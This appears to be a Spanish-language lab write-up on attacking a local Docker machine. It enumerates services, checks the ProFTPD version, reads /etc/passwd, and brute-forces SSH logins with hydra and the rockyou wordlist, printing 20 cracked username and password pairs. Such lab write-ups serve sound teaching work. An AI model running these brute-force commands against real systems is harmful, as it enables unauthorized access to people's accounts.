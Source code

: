 Se observa que los servicios `named`, `nginx`, `proftpd` y `ssh` están activos en la máquina, lo cual coincide con el resultado de `nmap`. Sin embargo, el resultado de `nmap` no mostró la version de `proftpd`. Podemos obtener la version de `proftpd` utilizando el comando `proftpd -v`:

```
root@39a4fb3fb0dc:/# proftpd -v
ProFTPD Version 1.3.8
```

Buscando en bases de datos de CVE, nos encontramos que hay ninguna vulnerabilidad grave en la version de `proftpd` que se encuentra en la máquina, por lo que no perdimos ninguna información vital para el ataque.

De resto, ningún otro servicio inactivo en la máquina tiene una versión vulnerable.

Por otro lado, se puede explorar la máquina para encontrar información adicional. Se puede buscar los usuarios de la máquina con el comando `cat /etc/passwd`:

```bash
cat /etc/passwd
```

Guardando la información de los usuarios en un archivo y utilizando hydra, se puede realizar un ataque de fuerza bruta a los servicios SSH de la máquina para obtener las contraseñas de los usuarios. Se puede utilizar el siguiente comando:

```bash
hydra -L ./usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Y se obtiene las contraseñas de los usuarios de la máquina.

```
[22][ssh] host: 172.17.0.2   login: aavila   password: school
[22][ssh] host: 172.17.0.2   login: aparra   password: bowwow
[22][ssh] host: 172.17.0.2   login: dvaimberg   password: chester
[22][ssh] host: 172.17.0.2   login: jcarrillo   password: barcelona
[22][ssh] host: 172.17.0.2   login: mhernandez   password: cameron
[22][ssh] host: 172.17.0.2   login: parevalo   password: 0123456789
[22][ssh] host: 172.17.0.2   login: tsantana   password: volleyball
[22][ssh] host: 172.17.0.2   login: agarcia   password: orlando
[22][ssh] host: 172.17.0.2   login: cfernandez   password: august
[22][ssh] host: 172.17.0.2   login: gmendez   password: kitten
[22][ssh] host: 172.17.0.2   login: jlopez   password: slipknot
[22][ssh] host: 172.17.0.2   login: mstanzione   password: january
[22][ssh] host: 172.17.0.2   login: rmata   password: 50cent
[22][ssh] host: 172.17.0.2   login: ugedde   password: samuel
[22][ssh] host: 172.17.0.2   login: amalaver   password: monkey1
[22][ssh] host: 172.17.0.2   login: dlopez   password: cutiepie
[22][ssh] host: 172.17.0.2   login: jmavarez   password: adidas
[22][ssh] host: 172.17.0.2   login: murdaneta   password: tintin
[22][ssh] host: 172.17.0.2   login: rmerchan   password: mustang
[22][ssh] host: 172.17.0.2   login: vsalcedo   password: portugal
1 of 1 target successfully completed, 20 valid passwords found
```

Es importante hacer nota que no se requiere el acceso root para realizar este ataque, ya que con el usuario no privilegiado `tsantana` ya podíamos obtener acceso a los nombre de usuario de la máquina listando el directorio home, y como todas tenían contraseña insegura, pueden ser descubiertas fácilmente.
